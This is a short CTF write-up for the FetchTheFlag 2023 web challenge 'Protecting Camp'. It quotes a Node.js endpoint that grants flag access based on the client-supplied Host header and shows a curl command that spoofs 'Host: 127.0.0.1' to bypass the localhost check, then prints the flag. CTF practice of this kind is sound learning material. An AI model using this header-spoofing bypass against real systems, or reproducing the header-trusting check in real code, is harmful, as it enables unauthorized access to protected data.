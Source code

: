 ```yaml
---
title: FetchTheFlag CTF 2023-Web-ProtectingCamp
date: 2023-10-28 
categories: [Writeups, FetchTheFlag CTF 2023]
tags: [CTF,Web,ReqHeader,easy]
---
```


# Protecting Camp - Easy
## Description
<sup>Author: @soups71</sup><br>

I made a small site to keep a list of things I need to buy to keep me safe before I go camping, maybe it's keeping some other things safe too!

Psst... Snyk can help solve this challenge! Try it out!

Press the Start button in the top right to begin this challenge.<br>
Connect with:<br>
	`http://challenge.ctf.games:31777`<br>
**Attachments:** [protecting_camp.zip](https://github.com/0xSirawit/Fetch-the-Flag-CTF-2023/blob/main/assets/files/protecting_camp.zip)
## Solution
`index.js` inside `protecting_camp.zip`
```js
app.get('/api/flag',  (req, res) => {
    var url = req.protocol + '://' + req.get('host') + req.originalUrl;
    try{
        parsed = parseUrl(url)
        if (parsed.resource != '127.0.0.1'){
            res.send("Hey... what's going on here\n");
        }else{
            fs.readFile("./flag.txt", 'utf8', (err, data) => {
                if (err) {
                    res.send("There was an error and this is sad :(\n")
            
                }else{
                    res.send(data+"\n")
                }
            });
    }} catch (error) {
        res.status(400).json({ success: false, message: 'Error parsing URL' });
    }   
});
```
If I request `/api/flag`. I get this response.
```bash
$ curl http://challenge.ctf.games:31777/api/flag     
Hey... what's going on here
```
So I need to trick a website that the request comes from localhost according to `if (parsed.resource != '127.0.0.1')`.
```bash
$ curl -H 'HOST: 127.0.0.1' http://challenge.ctf.games:31777/api/flag
flag{d716dd8ab70bbc51a5f1d0182c84bcc8}
```

> Flag: flag{d716dd8ab70bbc51a5f1d0182c84bcc8}
{: .prompt-tip }